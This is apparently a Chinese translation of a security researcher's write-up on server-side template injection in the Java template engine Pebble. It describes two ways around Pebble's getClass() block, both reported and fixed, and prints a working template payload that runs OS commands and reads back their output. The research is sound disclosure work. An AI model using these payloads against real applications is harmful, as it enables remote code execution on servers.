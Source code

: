 ```yaml
---
title: 【翻译】从Pebble看服务端模板注入漏洞
date: 2019-09-27 13:37:57
tags: 翻译
categories: 技术
cover: https://s2.ax1x.com/2019/11/12/M178mD.md.jpg
top_img: https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg
---
```


SSTI并不是Web应用程序领域的一种新型漏洞。这些年来，从Flask/Jinja2模版到Twig模版，都存在着SSTI漏洞利用的先例。这篇译文是来自securitum公司首席安全研究员Michał Bentkowski的分析报告，是关于一款名为Pebble的Java 模板引擎的SSTI漏洞的分析与利用。

<!--more-->

下面译文开始

服务器端模板注入并不是Web应用程序领域的一个新漏洞。2015年，James Kettle曾在 PortSwigger blog发表[Server-Side Template Injection](https://portswigger.net/blog/server-side-template-injection)一文，使得服务端模板注入漏洞被大家熟知 。本文将由一个不太流行的Java模板引擎-[Pebble](https://pebbletemplates.io/)来引领大家探索服务端模板注入漏洞。

 

## Pebble与模板注入

根据官方文档，Pebble是一款Java 模板引擎，开发他的灵感来自于Twig。它具有很强的模板延续性和易于阅读的语法；出于安全性考虑，它内置自动转义功能，并包括对国际化的集成支持。它支持模板引擎中最常见的语法，其中变量替换使用{{variable}}完成。通常，在模板引擎中，可以包含任意的 Java 表达式。假设想将名为 name 的变量放在模板中并大写，这时可以使用 {name.toUpperCase()} 。

在 Java 中各种表达式语言中利用模板注入的常用方法是使用类似于以下内容的代码：

```java
variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls   -la')
```

基本上，Java中的每个对象都有一个称为 getClass()的方法，它可以通过检索特殊的 java.lang.class，轻而易举的获取任意 Java类的实例。因为它允许执行 OS 命令，下一步通常是获取 java.lang.Runtime 的实例。

```java
{{   variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la')   }}
```



## 尝试阻止在Pebble中获取任意类

Pebble 的作者针对攻击的添加了保护程序，并禁用了 getClass()方法调用。但是，有一种有趣的方法可以绕过保护，因为 Pebble 试图在表达式中精简查找method。假设有以下表达式：

```java
{{ someString.toUPPERCASE()   }}
```

因为正确的表达式是 toupperCase()而不toUPPERCASE()，所以此表达式并不运行。但是，因为Pebble 在设计时忽略了方法或属性名称中大小写问题，所以实际上使用上面的代码，也可以"正常"调用toUpperCase()。

所以，问题是当 Pebble 试图阻止访问getClass()时，它检查方法的名称时区分大小写。因此，可以只使用以下语句：

```java
{{ someString.getCLASS().forName(...)   }}
```

来绕过保护，拼写不敏感问题已经 2019 年 4 月 发布的3.0.9 版本中修复了。

几个月后，在研究其他一些与Java相关的内容并浏览文档时，我注意到有另一种内置方法可以访问java.lang.Class。Java 中的几个包装类（例如 java.lang.Integer）中有名为 TYPE 的字段，其Type为 java.lang.Class 自身；因此，执行任意代码的另一种方法如下所示：

```java
{{   (1).TYPE.forName(...) }}
```

我[于2019年7月向Pebble](https://github.com/PebbleTemplates/pebble/issues/454)报告[了该问题](https://github.com/PebbleTemplates/pebble/issues/454)，并使用与FreeMarker中相同的方法在master中修复了[该问题](https://github.com/PebbleTemplates/pebble/issues/454)相同的方法（即：在主控中修复了该问题方法调用黑名单）。因此，尽管我仍然可以执行{{ (1).TYPE }}，但是forName()方法被禁用，使得执行任意代码变得“不可能”。我将“不可能”一词用引号引起来，因为我认为仍然可以找到旁路绕过，但是我无法做到这一点。不过这将是可以进行研究的有趣空间。

 

## 读取命令的输出（Java 9+）

尽管在Java中很容易执行任意命令，但是在出现诸如服务器端模板注入之类漏洞的情况下，有时候会难以读取输出。它通常是通过遍历生成的 InputStream 或out-of-band传输层协议使用带外数据(传输层协议使用带外数据 译者注)来发送输出来完成的。

在研究Pebble时，我注意到在Java 9+中事情变得简单得多，因为现在`InputStream`有了便捷方法[readAllBytes](https://docs.oracle.com/javase/9/docs/api/java/io/InputStream.html#readAllBytes--)`来读取`返回字节数组，然后`byte[]`可以使用`String`构造函数转换为`String`。以下是漏洞利用代码：

 

```java
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

 

结果：

![uKCtl6.png](https://s2.ax1x.com/2019/09/27/uKCtl6.png)

Pebble示例漏洞利用

## 玩转Pebble

如果您想玩转Pebble，我们准备了一个带有Docker容器的GitHub存储库，您可以在其中运行各种版本的Pebble。您可以在这里获取它：[https](https://github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble) : [//github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble](https://github.com/securitum/research/tree/master/r2019_server-side-template-injection-on-the-example-of-pebble)。

确保已经安装了`docker`和`docker-compose`，然后运行`docker-compose`，Web服务器就会在http：// localhost：4567上运行了。

![uKCN6K.png](https://s2.ax1x.com/2019/09/27/uKCN6K.png)

Docker应用程序的屏幕截图

## 总结

与许多的主流模板引擎相比，Pebble并没有本质上的不同；如果允许修改模板，则可以执行任意命令，因此建议确保未经授权的用户永远不能修改模板。